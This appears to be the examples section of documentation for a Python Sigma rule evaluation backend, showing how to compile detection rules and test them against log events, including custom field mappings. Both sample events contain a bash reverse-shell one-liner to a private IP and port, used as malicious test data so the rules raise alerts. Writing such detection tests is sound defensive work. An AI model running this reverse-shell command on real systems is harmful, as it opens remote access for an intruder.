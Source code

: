 ## Examples

### Basic Usage

```python
from sigma_simple_backend import SimpleEvalBackend, RestrictivenessLevel, MockRuleCollection

# Initialize
backend = SimpleEvalBackend(restrictiveness=RestrictivenessLevel.RESTRICTIVE)
rule_collection = MockRuleCollection()
compiled_rules = backend.compile(rule_collection)

# Test event
event = {
    "MESSAGE": "bash -i >& /dev/tcp/192.168.1.100/4444 0>&1",
    "_COMM": "bash",
    "_CMDLINE": "bash -i >& /dev/tcp/192.168.1.100/4444 0>&1",
}

# Evaluate
for rule_func in compiled_rules:
    alert = backend.test_rule_against_event(rule_func, event)
    if alert:
        print(f"🚨 {alert.rule_title} (Severity: {alert.severity})")
```

### Custom Field Mappings

```python
# Define custom mappings
custom_mappings = {
    "process.name": "proc_name",
    "log.message": "log_msg",
    "user.name": "username",
}

# Initialize with custom mappings
backend = SimpleEvalBackend(
    restrictiveness=RestrictivenessLevel.BALANCED,
    field_mappings=custom_mappings
)

# Your log format
event = {
    "proc_name": "bash",
    "log_msg": "bash -i >& /dev/tcp/192.168.1.100/4444 0>&1",
    "username": "user",
}

# Test normally
compiled_rules = backend.compile(MockRuleCollection())
for rule_func in compiled_rules:
    alert = backend.test_rule_against_event(rule_func, event)
    if alert:
        print(f"Alert: {alert.rule_title}")
```
